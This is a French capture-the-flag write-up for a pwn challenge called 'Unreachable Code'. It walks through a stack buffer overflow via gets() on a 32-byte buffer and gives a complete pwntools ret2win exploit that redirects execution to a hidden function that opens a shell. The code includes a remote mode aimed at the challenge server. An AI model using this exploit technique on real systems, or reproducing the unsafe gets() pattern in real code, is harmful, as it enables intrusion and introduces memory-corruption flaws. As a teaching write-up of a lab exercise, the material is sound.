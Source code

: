 # 💻 Unreachable Code

### 🛠 Type : `Pwn`

## 📝 Description

On nous fournit un binaire ELF 64 bits non strippé :

```bash
└─[$] <> file unreachable_code            
unreachable_code: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=e3bcec212a4c6e6d590a6419fd7ecc53b3d624da, for GNU/Linux 3.2.0, not stripped
```

## 🔎 Analyse statique (Ghidra)

### Fonction `main` :

```c
undefined8 main(void) {
  printf("Enter your string: ");
  fflush(stdout);
  vuln();
  return 0;
}
```

→ La fonction `main` appelle simplement `vuln()`.

---

### Fonction `vuln` :

```c
void vuln(void) {
  char local_28 [32];
  gets(local_28);
  printf("You entered: %s\n", local_28);
  return;
}
```

🛑 ⚠️ Elle utilise `gets()` sur un buffer de 32 octets, ce qui introduit une **vulnérabilité de dépassement de tampon** (`buffer overflow`). Cela permet d’écraser le pointeur de retour de la fonction.

---

### Fonction `ret2win` :

```c
void ret2win(void) {
  execve("/bin/sh", (char **)0x0, (char **)0x0);
  return;
}
```

→ Cette fonction n'est **jamais appelée** dans le flot normal du programme. Mais si on **redirige l’exécution** vers elle, on obtient un shell !

## 🧪 Exploitation (ret2win)

Le but est donc de provoquer un **buffer overflow** pour sauter à l’adresse de `ret2win`.

### 💥 Calcul du `padding`

* Le buffer est de 32 octets
* Le pointeur de base (`RBP`) est de 8 octets
* Il faut donc **40 octets de padding** pour atteindre l'adresse de retour

---

### 🐍 Exploit (Python + pwntools)

```python
#!/usr/bin/env python3
from pwn import *
import sys

binary_path = "./unreachable_code"
remote_host = "unreachable.labossi.xyz"
remote_port = 32952

if len(sys.argv) > 1 and sys.argv[1] == "remote":
    p = remote(remote_host, remote_port)
    log.info("Connexion à la cible distante: %s:%d", remote_host, remote_port)
else:
    p = process(binary_path)
    log.info("Exécution en local: %s", binary_path)

context.binary = binary_path
context.log_level = 'info'

# Récupération de l'adresse de ret2win
elf = ELF(binary_path)
ret2win_addr = elf.symbols['ret2win']
log.info("Adresse de ret2win: 0x%x", ret2win_addr)

# Construction du payload
padding_size = 40
payload = b'A' * padding_size + p64(ret2win_addr)

p.recvuntil(b"Enter your string: ")
p.sendline(payload)
p.interactive()
```

## ✅ Résultat

Une fois le shell obtenu, il suffit de cat le fichier:

```bash
cat flag.txt
```

## 🏁 Flag

```
RETRO{...} (flag perdu, serveur down)
```
